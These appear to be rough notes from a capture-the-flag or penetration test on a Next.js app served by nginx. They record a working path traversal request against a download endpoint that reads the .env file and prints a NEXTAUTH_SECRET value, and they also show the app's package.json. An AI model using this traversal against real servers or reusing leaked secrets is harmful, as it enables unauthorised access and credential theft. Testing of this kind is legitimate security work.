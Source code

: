 

*no keys to read*

can I read database or hardcoded credentials/ env file? but i need to figure out project tree


its being hosted with nginx so www dir in var

see a next.js project structure


/var/www/html/next.config.js

*try to read this file to find the root*


I think it could be on /home/nextjs or /home/node as well but then wtf is the project name?


*can I read the nginx conf file?*


its 3 directories deep



*this worked*
GET /api/download?example=../../.env

NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a



*package.json*

{
  "private": true,
  "scripts": {
    "dev": "next dev",
    "build": "next build"
  },
  "dependencies": {
    "@mdx-js/loader": "^3.1.0",
    "@mdx-js/react": "^3.1.0",
    "@next/mdx": "^15.3.0",
    "@tailwindcss/postcss": "^4.1.3",
    "@tailwindcss/typography": "^0.5.16",
    "@types/mdx": "^2.0.13",
    "next": "^15.2.2",
    "next-auth": "^4.24.11",
    "postcss": "^8.5.3",
    "react": "^18.2.0",
    "react-dom": "^18.2.0",
    "tailwindcss": "^4.1.3"
  },
  "devDependencies": {
    "@types/node": "22.14.0",
    "@types/react": "19.1.0",
    "typescript": "5.8.3"
  }
}
